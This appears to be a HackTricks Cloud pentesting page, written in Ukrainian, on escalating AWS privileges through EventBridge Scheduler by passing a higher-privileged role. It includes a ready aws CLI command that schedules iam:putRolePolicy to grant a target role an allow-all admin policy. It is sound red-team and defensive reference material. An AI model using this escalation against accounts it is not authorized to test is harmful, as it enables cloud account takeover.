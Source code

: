 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler може бути використаний для ескалації привілеїв шляхом планування викликів до різних AWS сервісів. Використовуючи його можливість викликати сервіси на запланованій основі, користувачі з достатніми правами можуть ескалувати привілеї. Ось деякі з ключових дій, які EventBridge Scheduler може ініціювати, використовуючи шаблонні цілі:

- Lambda: lambda:InvokeFunction - Викликати функції Lambda за розкладом.
- CodeBuild: codebuild:StartBuild - Запустити проекти AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Ініціювати виконання AWS CodePipeline.
- ECS: ecs:RunTask - Запустити завдання ECS.
- EventBridge: events:PutEvents - Додати події до EventBridge.
- Inspector: inspector:StartAssessmentRun - Розпочати оцінки Amazon Inspector.
- Kinesis: kinesis:PutRecord - Додати записи до потоків Kinesis.
- Firehose: firehose:PutRecord - Додати записи до потоків доставки Firehose.
- SageMaker: sagemaker:StartPipelineExecution - Розпочати виконання конвеєрів SageMaker.
- SNS: sns:Publish - Публікувати повідомлення в теми SNS.
- SQS: sqs:SendMessage - Надсилати повідомлення до черг SQS.
- Step Functions: states:StartExecution - Розпочати виконання AWS Step Functions.

Це лише деякі з шаблонних дій, які може виконувати EventBridge Scheduler. Однак, використовуючи універсальні цілі, можна ініціювати багато інших дій у сервісах AWS. Універсальні цілі дозволяють виконувати більш розширені API операції, ніж у шаблонному списку.

Більше інформації про EventBridge Scheduler у:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Користувачі з правами `sts:AssumeRole`, `iam:PassRole` та `scheduler:CreateSchedule or scheduler:UpdateSchedule` можуть ескалувати привілеї, використовуючи EventBridge Scheduler для виклику сервісів за допомогою ролі з вищими привілеями.

З цими правами зловмисник може прийняти роль з підвищеними привілеями та передати цю роль EventBridge Scheduler під час створення або оновлення розкладу. Розклад може бути налаштований для виконання будь-якої з дій, перерахованих раніше, таких як виклик функцій Lambda, запуск завдань ECS, ініціювання виконання CodePipeline або будь-яка операція з 270 сервісів AWS, підтримуваних EventBridge Scheduler. Плануючи ці дії, зловмисник може зловживати вищими привілеями для виконання несанкціонованих операцій у сервісах AWS.
\\

Наприклад, вони можуть налаштувати розклад для виклику функції Lambda, яка є шаблонною дією:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Крім шаблонних дій сервісу, ви можете використовувати універсальні цілі в EventBridge Scheduler для виклику широкого спектру API-операцій для багатьох сервісів AWS. Універсальні цілі пропонують гнучкість для виклику майже будь-якого API. Один з прикладів може бути використання універсальних цілей для додавання "AdminAccessPolicy", використовуючи роль, яка має політику "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

